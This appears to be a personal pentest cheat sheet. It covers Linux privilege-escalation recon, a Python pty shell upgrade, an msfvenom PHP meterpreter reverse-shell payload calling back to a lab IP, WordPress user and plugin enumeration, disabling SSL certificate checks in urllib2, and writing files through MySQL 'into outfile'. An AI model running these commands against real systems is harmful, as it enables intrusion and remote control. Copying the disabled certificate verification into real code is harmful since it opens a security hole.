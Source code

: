 #Privilege Escalation
	1. uname -a
	2. cat /etc/*release*
	3. cat /etc/lsb-release

#Bash shells
	1. /usr/bin/python -c 'import pty;pty.spawn("/bin/bash");'
	
#Bind Shells


#Reverse Shells

#Reverse Shells using metasploit

  	1. msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1337 -e php/base64 > shell.php
     		 append <?php ?> in the shell.php file

#Wordpress Scanning
	1. wpscan --url https://10.0.2.9:12038/blogblog --enumerate uvp
    		u : enumerate usernames 
    		vp : vulnerable plugins
    
#Changing a python urllib2.urlopen method to work with ssl

	1. 
		import ssl 
		ctx = ssl.create_default_context()
		ctx.check_hostname = False
		ctx.verify_mode = ssl.CERT_NONE

		urllib2.urlopen(----- , context = ctx)

#After getting access to mysql command line remotely

	1. Creating a file onto the remote server
		mysql> select "baba" into outfile "/var/www/html/somepath/wp-content/uploads/test.txt";
    
